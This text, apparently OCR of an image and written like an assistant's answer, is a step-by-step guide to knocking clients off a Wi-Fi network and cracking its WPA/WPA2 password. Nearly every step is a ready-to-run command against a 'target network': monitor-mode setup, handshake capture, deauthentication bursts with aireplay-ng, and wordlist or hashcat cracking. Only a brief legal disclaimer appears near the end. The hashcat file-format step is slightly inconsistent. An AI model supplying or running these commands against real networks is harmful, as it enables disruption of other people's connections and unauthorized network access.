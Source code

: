 To deauthenticate users from a Wi-Fi network and attempt to crack the password, you'll follow a process that involves capturing the WPA/WPA2 handshake and then using brute-force or dictionary methods to crack it. This method requires tools like `aircrack-ng`, `aireplay-ng`, and `Wireshark`, among others.

Here's a step-by-step guide to performing a deauthentication attack and attempting to crack the password:

### **Prerequisites**
- A Linux system (Debian-based or Arch-based) with the following tools installed:
  - `aircrack-ng`
  - `airmon-ng`
  - `aireplay-ng`
  - `airodump-ng`
  - Wireless card that supports monitor mode
  - `hashcat` (optional for advanced cracking)

---

### **Step 1: Set Up Wireless Card in Monitor Mode**

1. **Identify Wireless Interface**
   Open a terminal and run:
   ```bash
   iwconfig
   ```
   Identify the wireless interface (e.g., `wlan0`).

2. **Enable Monitor Mode**
   Start `airmon-ng` to enable monitor mode on your interface:
   ```bash
   sudo airmon-ng start wlan0
   ```
   This may rename your interface to something like `wlan0mon`.

3. **Check for Conflicting Processes**
   Kill any processes that might interfere with your wireless card using:
   ```bash
   sudo airmon-ng check kill
   ```

---

### **Step 2: Scan for Wi-Fi Networks**

1. **Scan for Networks**
   Use `airodump-ng` to list all available Wi-Fi networks:
   ```bash
   sudo airodump-ng wlan0mon
   ```
   Note the **BSSID** (MAC address) and **Channel** of the target network.

---

### **Step 3: Capture the WPA/WPA2 Handshake**

1. **Capture Packets on Target Network**
   Start listening to the target network by specifying the **BSSID** and **channel**:
   ```bash
   sudo airodump-ng --bssid [BSSID] -c [CHANNEL] -w capture wlan0mon
   ```
   This will capture packets from the target network and save them into a file called `capture-01.cap`.

---

### **Step 4: Deauthenticate Clients from the Network**

1. **Deauth Attack**
   To force clients to reconnect (which helps capture the handshake), send deauthentication packets to the clients:
   ```bash
   sudo aireplay-ng --deauth 10 -a [BSSID] wlan0mon
   ```
   - `--deauth 10`: Sends 10 deauthentication packets.
   - `-a [BSSID]`: The MAC address of the target network.

   Alternatively, you can deauthenticate a specific client (known as a **station**):
   ```bash
   sudo aireplay-ng --deauth 10 -a [BSSID] -c [STATION MAC] wlan0mon
   ```

   Look at the `airodump-ng` window to check if you've captured the WPA handshake. You will see "WPA handshake: [BSSID]" at the top of the terminal when it's successful.

---

### **Step 5: Crack the Password**

1. **Dictionary Attack with Aircrack-ng**
   Use `aircrack-ng` to crack the captured handshake using a dictionary file (wordlist):
   ```bash
   sudo aircrack-ng -w [wordlist.txt] -b [BSSID] capture-01.cap
   ```
   - `-w [wordlist.txt]`: The path to your wordlist file.
   - `-b [BSSID]`: The target network's BSSID.

2. **Brute-Force Attack with Hashcat (Optional)**
   If the dictionary attack doesn't work, you can try brute-forcing with `hashcat`. Convert the `capture-01.cap` to a hashcat-compatible format:
   ```bash
   sudo aircrack-ng capture-01.cap -J capture
   ```
   Then run `hashcat` with the following command:
   ```bash
   hashcat -m 2500 capture.hccapx [wordlist.txt]
   ```

---

### **Step 6: Analyze and Crack**

If the wordlist contains the correct password, `aircrack-ng` or `hashcat` will output the Wi-Fi password. If the password is not in the wordlist, you will need a more extensive wordlist or attempt a brute-force attack with specialized tools.

---

### **Important Notes**
- **Legal and Ethical Considerations:** These techniques should only be used for testing and educational purposes on networks that you own or have permission to test. Unauthorized access to networks is illegal.
- **Wordlists:** You can find wordlists like `rockyou.txt` for dictionary attacks, but for large-scale password cracking, custom wordlists or hybrid attacks (combining rules and masks) are more effective.

By following these steps, you can deauthenticate users and attempt to crack a WPA/WPA2 Wi-Fi password using packet capture and dictionary or brute-force techniques.